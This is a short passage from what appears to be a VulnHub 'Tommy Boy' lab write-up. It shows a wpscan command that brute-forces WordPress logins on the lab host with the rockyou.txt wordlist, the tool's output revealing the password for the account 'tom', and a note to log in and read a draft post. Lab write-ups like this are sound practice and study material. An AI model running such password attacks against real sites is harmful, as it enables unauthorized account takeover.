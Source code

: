 	![](images/Pasted%20image%2020220118180008.png)
	-  Wordpress Draft contains last 4 digit of password
	-  Stuck here again, famous Queen song has too many possiblities & the password could be the lyrics as well.

## Back to Port 80 (HTTP)

1. Bruteforce against tom's account (tommy, tom) w/ rockyou.txt
	```
	wpscan --no-update --disable-tls-checks --wp-content-dir wp-admin --url http://tommyboy/prehistoricforest/ --usernames usernames.txt --passwords /usr/share/wordlists/rockyou.txt -f cli-no-color 2>&1 | tee "/root/vulnHub/TommyBoy1/192.168.56.129/scans/tcp80/tcp_80_http_wpscan_bruteforce.txt"
	```
	```
	[+] Performing password attack on Wp Login against 2 user/s
	Progress: |== 			|
	[SUCCESS] - tom / tomtom1
	```
2. Login w/ tom:tomtom1 & find draft